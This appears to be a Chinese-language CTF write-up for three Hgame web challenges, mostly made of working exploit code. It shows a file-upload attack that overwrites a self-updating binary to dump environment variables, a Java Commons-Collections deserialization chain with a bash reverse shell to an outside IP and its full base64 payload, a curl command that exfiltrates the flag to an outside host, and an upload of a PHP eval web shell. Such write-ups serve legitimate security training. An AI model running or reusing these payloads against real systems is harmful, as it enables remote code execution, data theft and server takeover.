#### easyuu

```javascript
const _f = window.fetch;
window.fetch = async (...args) => {
    const req = args[0] instanceof Request ? args[0].clone() : new Request(...args); 
    console.log("请求上下文:", {
        url: req.url,
        method: req.method,
        headers: Object.fromEntries(req.headers), 
        body: await req.text().catch(() => "aaa")
    });

    return _f(...args); 
};
```


js 发包请求这个 api

```javascript
const url = "http://1.116.118.188:32111/api/list_dir"

const res = await fetch(url, {
    method: "POST", headers: {
        "content-type": "application/x-www-form-urlencoded",
    }, body: "path=/"
})

const data = await res.json()
console.log(data)
```


在当前目录发现这些文件，rust 写的 easyuu,这个 /api/list_dir 可以用来查看文件目录，

/api/download_file 接口提供下载文件，读取这些文件

```json
[
  {
    name: "uploads",
    is_dir: true,
    size: 82,
  }, {
    name: "update",
    is_dir: true,
    size: 12,
  }, {
    name: "Cargo.toml",
    is_dir: false,
    size: 3485,
  }, {
    name: "site",
    is_dir: true,
    size: 28,
  }, {
    name: "easyuu",
    is_dir: false,
    size: 11071912,
  }
]

[
  {
    name: "easyuu.zip",
    is_dir: false,
    size: 103224,
  }, {
    name: "easyuu",
    is_dir: false,
    size: 11071912,
  }
]
```

```toml
// cargo.toml

 [package]
name = "easyuu"
version = "0.1.0"
edition = "2024"

[lib]
crate-type = ["cdylib", "rlib"]

[dependencies]
leptos = { version = "0.8.15", features = ["multipart", "nightly"] }
leptos_router = { version = "0.8.11", features = ["nightly"] }
axum = { version = "0.8.8", optional = true }
console_error_panic_hook = { version = "0.1.7", optional = true }
leptos_axum = { version = "0.8.7", optional = true }
leptos_meta = { version = "0.8.5" }
tokio = { version = "1.49.0", features = ["full"], optional = true }
wasm-bindgen = { version = "0.2.108", optional = true }
serde = { version = "1.0.228", features = ["derive"] }
tokio-util = "0.7.18"
self-replace = { version = "1.5.0", optional = true }
semver = "1.0.27"

[features]
hydrate = [
    "leptos/hydrate",
    "dep:console_error_panic_hook",
    "dep:wasm-bindgen",
]
ssr = [
    "dep:axum",
    "dep:tokio",
    "dep:leptos_axum",
    "dep:self-replace",
    "leptos/ssr",
    "leptos_meta/ssr",
    "leptos_router/ssr",
]

# Defines a size-optimized profile for the WASM bundle in release mode
[profile.wasm-release]
inherits = "release"
opt-level = 'z'
lto = true
codegen-units = 1
panic = "abort"

[package.metadata.leptos]
# The name used by wasm-bindgen/cargo-leptos for the JS/WASM bundle. Defaults to the crate name
output-name = "easyuu"

# The site root folder is where cargo-leptos generate all output. WARNING: all content of this folder will be erased on a rebuild. Use it in your server setup.
site-root = "target/site"

# The site-root relative folder where all compiled output (JS, WASM and CSS) is written
# Defaults to pkg
site-pkg-dir = "pkg"

# [Optional] The source CSS file. If it ends with .sass or .scss then it will be compiled by dart-sass into CSS. The CSS is optimized by Lightning CSS before being written to <site-root>/<site-pkg>/app.css   
style-file = "style/main.scss"
# Assets source dir. All files found here will be copied and synchronized to site-root.
# The assets-dir cannot have a sub directory with the same name/path as site-pkg-dir.
#
# Optional. Env: LEPTOS_ASSETS_DIR.
assets-dir = "public"

# The IP and port (ex: 127.0.0.1:3000) where the server serves the content. Use it in your server setup.
site-addr = "0.0.0.0:3000"

# The port to use for automatic reload monitoring
reload-port = 3001

# [Optional] Command to use when running end2end tests. It will run in the end2end dir.
#   [Windows] for non-WSL use "npx.cmd playwright test"
#   This binary name can be checked in Powershell with Get-Command npx
end2end-cmd = "npx playwright test"
end2end-dir = "end2end"

#  The browserlist query used for optimizing the CSS.
browserquery = "defaults"

# The environment Leptos will run in, usually either "DEV" or "PROD"
env = "DEV"

# The features to use when compiling the bin target
#
# Optional. Can be over-ridden with the command line parameter --bin-features
bin-features = ["ssr"]

# If the --no-default-features flag should be used when compiling the bin target
#
# Optional. Defaults to false.
bin-default-features = false

# The features to use when compiling the lib target
#
# Optional. Can be over-ridden with the command line parameter --lib-features
lib-features = ["hydrate"]

# If the --no-default-features flag should be used when compiling the lib target
#
# Optional. Defaults to false.
lib-default-features = false

# The profile to use for the lib target when compiling for release
#
# Optional. Defaults to "release".
lib-profile-release = "wasm-release"
```

然后读取 easyuu.zip 

```rust
// app.rs
use crate::error_template::ErrorTemplate;
use leptos::prelude::*;
use leptos::server_fn::codec::{MultipartData, MultipartFormData};
use leptos::wasm_bindgen::JsCast;
use leptos::web_sys::{FormData, HtmlFormElement, SubmitEvent};
use leptos_meta::{MetaTags, Stylesheet, Title, provide_meta_context};
use leptos_router::{
    StaticSegment,
    components::{Route, Router, Routes},
};
use serde::{Deserialize, Serialize};

#[cfg(feature = "ssr")]
use axum::{extract::Path, response::IntoResponse};

#[derive(Clone, Debug, Serialize, Deserialize)]
pub struct FileEntry {
    pub name: String,
    pub is_dir: bool,
    pub size: u64,
}

pub fn shell(options: LeptosOptions) -> impl IntoView {
    view! {
        <!DOCTYPE html>
        <html lang="en">
            <head>
                <meta charset="utf-8" />
                <meta name="viewport" content="width=device-width, initial-scale=1" />
                <AutoReload options=options.clone() />
                <HydrationScripts options />
                <MetaTags />
            </head>
            <body>
                <App />
            </body>
        </html>
    }
}

#[cfg(feature = "ssr")]
pub async fn download_file(Path(filename): Path<String>) -> impl IntoResponse {
    use axum::{
        body::Body,
        http::{StatusCode, header},
    };
    use std::path::PathBuf;
    use tokio::fs::File;
    use tokio_util::io::ReaderStream;

    let base_dir = PathBuf::from("./uploads");
    let file_path = base_dir.join(&filename);

    let file = match File::open(&file_path).await {
        Ok(f) => f,
        Err(_) => return StatusCode::NOT_FOUND.into_response(),
    };

    let size = match file.metadata().await {
        Ok(meta) => meta.len(),
        Err(_) => return StatusCode::INTERNAL_SERVER_ERROR.into_response(),
    };

    let stream = ReaderStream::new(file);
    let body = Body::from_stream(stream);

    let headers = [
        (
            header::CONTENT_DISPOSITION,
            format!("attachment; filename=\"{}\"", filename),
        ),
        (header::CONTENT_LENGTH, size.to_string()),
        (header::CONTENT_TYPE, "application/octet-stream".into()),
    ];

    (headers, body).into_response()
}

#[server(prefix = "/api", endpoint = "list_dir")]
pub async fn list_dir(path: String) -> Result<Vec<FileEntry>, ServerFnError> {
    use tokio::fs;

    let mut entries = Vec::new();
    let mut dir = fs::read_dir(&path).await?;

    while let Some(entry) = dir.next_entry().await? {
        let meta = entry.metadata().await?;

        entries.push(FileEntry {
            name: entry.file_name().to_string_lossy().to_string(),
            is_dir: meta.is_dir(),
            size: meta.len(),
        });
    }

    Ok(entries)
}

#[server(prefix = "/api",endpoint = "upload_file",
    input = MultipartFormData,
)]
pub async fn upload_file(data: MultipartData) -> Result<usize, ServerFnError> {
    use std::path::PathBuf;
    use tokio::fs::OpenOptions;
    use tokio::io::AsyncWriteExt;

    let mut data = data.into_inner().unwrap();
    let mut count = 0;
    let mut base_dir = PathBuf::from("./uploads");

    while let Ok(Some(mut field)) = data.next_field().await {
        match field.name().as_deref() {
            Some("path1") => {
                if let Ok(p) = field.text().await {
                    base_dir = PathBuf::from(p);
                }
                continue;
            }
            Some("file") => {
                let name = field.file_name().unwrap_or_default().to_string();
                let path = base_dir.join(&name);
                let mut file = OpenOptions::new()
                    .create(true)
                    .write(true)
                    .truncate(true)
                    .open(path)
                    .await?;
                while let Ok(Some(chunk)) = field.chunk().await {
                    let len = chunk.len();
                    count += len;
                    file.write_all(&chunk).await?;
                }
                file.flush().await?;
            }
            _ => continue,
        }
    }

    Ok(count)
}

#[component]
pub fn ListDir() -> impl IntoView {
    let files = use_context::<Resource<Result<Vec<FileEntry>, ServerFnError>>>().unwrap();

    view! {
        <Transition fallback=move || view! { <p>"Loading..."</p> }>
            <ErrorBoundary fallback=|errors| view! { <ErrorTemplate errors /> }>
                <ul>
                    {move || {
                        Suspend::new(async move {
                            files
                                .await
                                .map(|files| {
                                    files
                                        .into_iter()
                                        .map(|f| {
                                            view! {
                                                <li>
                                                    <a
                                                        href=format!("/api/download_file/{}", f.name)
                                                        rel="external"
                                                    >
                                                        {f.name.clone()}
                                                    </a>
                                                </li>
                                            }
                                        })
                                        .collect_view()
                                })
                        })
                    }}
                </ul>
            </ErrorBoundary>
        </Transition>
    }
}

#[component]
pub fn UploadFile() -> impl IntoView {
    let files = use_context::<Resource<Result<Vec<FileEntry>, ServerFnError>>>().unwrap();

    let upload_action = Action::new_local(|data: &FormData| upload_file(data.clone().into()));

    let on_submit = move |ev: SubmitEvent| {
        ev.prevent_default();
        let target = ev.target().unwrap().unchecked_into::<HtmlFormElement>();
        let form_data = FormData::new_with_form(&target).unwrap();
        upload_action.dispatch_local(form_data);
    };

    Effect::new(move |_| {
        if let Some(Ok(_)) = upload_action.value().get() {
            files.refetch();
        }
    });

    view! {
        <h3>File Upload</h3>
        <form on:submit=on_submit>
            <input type="file" name="file" />
            <input type="submit" />
        </form>
        <p>
            {move || {
                if upload_action.input().read().is_none() && upload_action.value().read().is_none()
                {
                    "Upload a file.".to_string()
                } else if upload_action.pending().get() {
                    "Uploading...".to_string()
                } else if let Some(Ok(value)) = upload_action.value().get() {
                    format!("Upload successful: {} bytes uploaded.", value)
                } else {
                    format!("{:?}", upload_action.value().get())
                }
            }}

        </p>
    }
}

#[component]
pub fn App() -> impl IntoView {
    // Provides context that manages stylesheets, titles, meta tags, etc.
    provide_meta_context();

    view! {
        // injects a stylesheet into the document <head>
        // id=leptos means cargo-leptos will hot-reload this stylesheet
        <Stylesheet id="leptos" href="/pkg/easyuu.css" />

        // sets the document title
        <Title text="Welcome to Hgame" />

        // content for this welcome page
        <Router>
            <main>
                <Routes fallback=|| "Page not found.".into_view()>
                    <Route path=StaticSegment("") view=HomePage />
                </Routes>
            </main>
        </Router>
    }
}

/// Renders the home page of your application.
#[component]
fn HomePage() -> impl IntoView {
    let path = RwSignal::new("./uploads".to_string());
    let files = Resource::new(move || path.get(), |path| list_dir(path));
    let version = env!("CARGO_PKG_VERSION").to_string();

    provide_context(files);

    view! {
        <h1>"Welcome to Hgame web file explorer!"</h1>
        <h2>"Directory listing for /uploads"</h2>
        <hr />
        <UploadFile />
        <hr />
        <ListDir />
        <footer>
            <hr />
            <p>"Current version: " {version}</p>
        </footer>
    }
}

```

```rust
// main.rs

use semver::Version;
use std::env;

const VERSION: &str = env!("CARGO_PKG_VERSION");

#[cfg(feature = "ssr")]
#[tokio::main]
async fn main() {
    use axum::{Router, routing::get};
    use easyuu::app::*;
    use leptos::{logging::log, prelude::*};
    use leptos_axum::{LeptosRoutes, generate_route_list};

    let args: Vec<String> = env::args().collect();

    if args.len() > 1 && args[1] == "--version" {
        println!("{}", VERSION);
        return;
    }

    let conf = get_configuration(None).expect("Failed to get configuration");
    let addr = conf.leptos_options.site_addr;
    let leptos_options = conf.leptos_options;
    // Generate the list of routes in your Leptos App
    let routes = generate_route_list(App);

    let app = Router::new()
        .route("/api/download_file/{filename}", get(download_file))
        .leptos_routes(&leptos_options, routes, {
            let leptos_options = leptos_options.clone();
            move || shell(leptos_options.clone())
        })
        .fallback(leptos_axum::file_and_error_handler(shell))
        .with_state(leptos_options);

    // start self update watcher
    tokio::spawn(update_watcher());

    // run our app with hyper
    // `axum::Server` is a re-export of `hyper::Server`
    log!("listening on http://{}", &addr);
    let listener = tokio::net::TcpListener::bind(&addr)
        .await
        .expect("Failed to bind to address");
    axum::serve(listener, app.into_make_service())
        .await
        .expect("Server failed");
}

#[cfg(feature = "ssr")]
async fn update_watcher() {
    use tokio::time::{Duration, sleep};

    let current_version = match Version::parse(VERSION) {
        Ok(v) => v,
        Err(e) => {
            eprintln!("Failed to parse current version: {}", e);
            return;
        }
    };

    let check_interval = Duration::from_secs(5);

    loop {
        sleep(check_interval).await;

        if let Some(new_version) = get_new_version().await {
            if new_version > current_version {
                let path = match env::current_exe() {
                    Ok(p) => p,
                    Err(e) => {
                        eprintln!("Failed to get current executable path: {}", e);
                        continue;
                    }
                };

                if let Err(e) = update().await {
                    eprintln!("Update failed: {}", e);
                } else {
                    println!("Update succeeded, restarting...");
                    restart_myself(path);
                }
            }
        }
    }
}

#[cfg(feature = "ssr")]
async fn get_new_version() -> Option<Version> {
    use tokio::process::Command;

    let output = Command::new("./update/easyuu")
        .arg("--version")
        .output()
        .await
        .ok()?;

    let version_str = String::from_utf8(output.stdout).ok()?.trim().to_string();
    Version::parse(&version_str).ok()
}

#[cfg(feature = "ssr")]
async fn update() -> Result<(), Box<dyn std::error::Error>> {
    let new_binary = "./update/easyuu";
    self_replace::self_replace(&new_binary)?;
    // fs::remove_file(&new_binary)?;
    Ok(())
}

#[cfg(feature = "ssr")]
fn restart_myself(path: std::path::PathBuf) {
    use std::os::unix::process::CommandExt;
    use std::process::Command;

    let _ = Command::new(path).exec();
}

#[cfg(not(feature = "ssr"))]
pub fn main() {
    // no client-side main function
    // unless we want this to work with e.g., Trunk for pure client-side testing
    // see lib.rs for hydration function instead
}

```

每隔 5 秒进行一次版本号检查，如果大于当前版本号就更新，会执行一次

```
./update/easyuu --version
```

上传同名文件替换这个 easyuu,替换为恶意脚本拿环境变量

```javascript

const form = new FormData();
form.append("path1", "./update");

const script = `#!/bin/bash
env > ./uploads/flag.txt
echo "0.0.1"`;

form.append("file", new Blob([script]), "easyuu");

const res = await fetch("http://1.116.118.188:32111/api/upload_file", {
    method: "POST",
    body: form,
});
console.log("上传结果:", await res.text());

setTimeout(async () => {
    const flag = await fetch("http://1.116.118.188:32111/api/download_file/flag.txt");
    console.log(await flag.text());
}, 6000);
```



hgame{UpIOad-aNd-UpDaTE-@re_rE4ILy_3@sY1a5c8}

#### ezcc

cc6 做前半段链子，

```java
// exp.java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;
public class EXP {
    public static void main(String[] args) throws Exception
    {
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"codes");

        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] evil = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\codes.class"));
        byte[][] codes = {evil};
        bytecodesField.set(templates,codes);

        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},
                new Object[]{templates});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class), 
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five")); 
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");
        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "value");
        lazyMap.remove("key");
  
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factoryField = lazyMapClass.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, chainedTransformer);

        serialize(expMap);
    }

    public static void setFieldValue(Object object, String field_name, Object filed_value) throws Exception {
        Class clazz = object.getClass();
        Field declaredField = clazz.getDeclaredField(field_name);
        declaredField.setAccessible(true);
        declaredField.set(object, filed_value);
    }

    public static void serialize(Object obj) throws Exception {
        java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();
        try (ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(obj);
        }
        byte[] serialized = baos.toByteArray();
        Files.write(Paths.get("trAXFilter.bin"), serialized);
        String b64 = java.util.Base64.getEncoder().encodeToString(serialized);
        Files.write(Paths.get("trAXFilter.b64"), b64.getBytes(java.nio.charset.StandardCharsets.UTF_8));
        System.out.println(b64);
    }
}


// codes.java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class codes extends AbstractTranslet {
    static {
        try{
            String[] cmdArray = {"/bin/bash", "-c", "bash -i >& /dev/tcp/121.41.188.46/7777 0>&1"};
            Runtime.getRuntime().exec(cmdArray);
        }
        catch(Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}


```

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IANG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5rZXl2YWx1ZS5UaWVkTWFwRW50cnmKrdKbOcEf2wIAAkwAA2tleXQAEkxqYXZhL2xhbmcvT2JqZWN0O0wAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwdAADa2V5c3IAKm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5tYXAuTGF6eU1hcG7llIKeeRCUAwABTAAHZmFjdG9yeXQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNoYWluZWRUcmFuc2Zvcm1lcjDHl+woepcEAgABWwANaVRyYW5zZm9ybWVyc3QALVtMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwdXIALVtMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLlRyYW5zZm9ybWVyO71WKvHYNBiZAgAAeHAAAAACc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5Db25zdGFudFRyYW5zZm9ybWVyWHaQEUECsZQCAAFMAAlpQ29uc3RhbnRxAH4AA3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAPm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5JbnN0YW50aWF0ZVRyYW5zZm9ybWVyNIv0f6SG0DsCAAJbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAXNyADpjb20uc3VuLm9yZy5hcGFjaGUueGFsYW4uaW50ZXJuYWwueHNsdGMudHJheC5UZW1wbGF0ZXNJbXBsCVdPwW6sqzMDAAZJAA1faW5kZW50TnVtYmVySQAOX3RyYW5zbGV0SW5kZXhbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzcQB+ABVMAAVfbmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO0wAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9wZXJ0aWVzO3hwAAAAAP////91cgADW1tCS/0ZFWdn2zcCAAB4cAAAAAF1cgACW0Ks8xf4BghU4AIAAHhwAAAEZ8r+ur4AAAA0AC0KAAsAGgcAGwgAHAgAHQgAHgoAHwAgCgAfACEHACIKAAgAIwcAJAcAJQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAApFeGNlcHRpb25zBwAmAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAIgEAClNvdXJjZUZpbGUBAApjb2Rlcy5qYXZhDAAMAA0BABBqYXZhL2xhbmcvU3RyaW5nAQAJL2Jpbi9iYXNoAQACLWMBACtiYXNoIC1pID4mIC9kZXYvdGNwLzEyMS40MS4xODguNDYvNzc3NyAwPiYxBwAnDAAoACkMACoAKwEAE2phdmEvbGFuZy9FeGNlcHRpb24MACwADQEABWNvZGVzAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACgoW0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPcHJpbnRTdGFja1RyYWNlACEACgALAAAAAAAEAAEADAANAAEADgAAAB0AAQABAAAABSq3AAGxAAAAAQAPAAAABgABAAAABwABABAAEQACAA4AAAAZAAAAAwAAAAGxAAAAAQAPAAAABgABAAAAEwASAAAABAABABMAAQAQABQAAgAOAAAAGQAAAAQAAAABsQAAAAEADwAAAAYAAQAAABYAEgAAAAQAAQATAAgAFQANAAEADgAAAGYABAABAAAAJQa9AAJZAxIDU1kEEgRTWQUSBVNLuAAGKrYAB1enAAhLKrYACbEAAQAAABwAHwAIAAIADwAAABoABgAAAAoAFAALABwADwAfAA0AIAAOACQAEAAWAAAABwACXwcAFwQAAQAYAAAAAgAZcHQABWNvZGVzcHcBAHh1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAF2cgAdamF2YXgueG1sLnRyYW5zZm9ybS5UZW1wbGF0ZXMAAAAAAAAAAAAAAHhwc3EAfgAAP0AAAAAAAAx3CAAAABAAAAAAeHh0AAV2YWx1ZXg=
```

反弹 shell 后没有回显，但是可以正常执行命令，curl http://xxxx $(cat /flag) 外带 flag,不知道为啥没有 {} 这俩字符，可能是传输有问题？



#### baby-web?

给了一个文件上传接口，发现没有禁止 php 文件



上传后保存在 uploads/ 目录下 ，然后重定向到一个不存在的文件

```php
header("Location: l0cked_myst3ry.php?message=" . urlencode($message) . "&type=" . urlencode($type));
```

上传 php 文件

```
import requests

URL = 'http://1.116.118.188:31333'


php_code = b'<?php echo eval($_POST["cmd"]); ?>'


r = requests.post(
    URL + '/upload_handler.php',
    files={'fileToUpload': ('shell1.php', php_code, 'application/octet-stream')},
    data={'submit': 'upload'},
    allow_redirects=False   
)
```

连蚁剑

